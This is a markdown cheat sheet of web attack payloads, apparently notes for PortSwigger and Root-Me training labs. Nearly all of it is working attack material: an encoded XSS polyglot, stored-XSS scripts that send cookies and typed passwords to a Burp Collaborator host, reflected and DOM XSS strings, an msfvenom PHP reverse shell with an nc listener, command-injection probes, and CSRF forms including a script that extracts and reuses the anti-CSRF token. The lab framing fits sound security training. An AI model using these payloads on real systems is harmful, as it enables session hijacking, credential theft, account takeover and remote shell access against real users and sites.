 # XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`
### Stored XSS
#### Steal cookie
`<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>`

#### Capture other users information
`<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">`

### Reflected XSS
#### Reflected XSS into attribute with angle brackets HTML-encoded

`"onmouseover="alert(1)`

#### Reflected DOM XSS

`\"-alert(1)}//`

#### Reflected XSS into HTML context with most tags and attributes blocked

`<$tag$ $attribute$> Using Burp Suite Intruder`

#### Reflected XSS into a JavaScript string with single quote and backslash escaped

`</script><script>alert(1)</script>`

#### Reflected XSS with some SVG markup allowed

`<svg><animatetransform onbegin=alert(1)>`

#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

`\'-alert(1)//`

#### Reflected XSS into HTML context with all tags blocked except custom ones
`<xss id="element-id" onclick="alert(1)" tabindex=1>#element-id`

[Why we use tabIndex here?](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/tabindex)

Why we add `#element-id` at the end?

The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called. 

#### Reflected XSS in canonical link tag
[About canonical link tag](https://ahrefs.com/blog/canonical-tags/) -> We will exploit by break href attribute

### Stored XSS


### DOM XSS
#### DOM XSS in `innerHTML`  sink using source `location.search`
`<img src=1 onerror=alert(1)>`

#### DOM XSS in jQuery selector sink using a change event
`<iframe src="URL" onload="this.src+='xss'"></iframe>`

#### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
[XSS Angular JS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

#### 
# RFI
### Shell generation
`msfvenom -p php/reverse_php lport=4444 lhost=<your ip > /path/to/shell`

### Start listen on port
`cd /path/to/shell`

`sudo python3 -m http.server`

`nc -lvp 4444`                 


# Command Injection
Use one of the following commands to test command injection. Or you can use `Burp Suite Intruder` with this [payload](https://github.com/payloadbox/command-injection-payload-list).
### Blind
`ping`

`>` forcing some output && `cat`

`curl` great way

### Verbose
#### Linux
`whoami` || `ls` || `ping` || `sleep` ||  `nc`

#### Windows
`whoami` || `dir` || `ping` || `timeout`

### CSRF 
#### Simple payload
Access [this challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
```
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="ad" />
      <input type="hidden" name="status" value="on" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

#### Token Bypass
Sample payload for bypassing CSRF Token. Access [this challenge](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
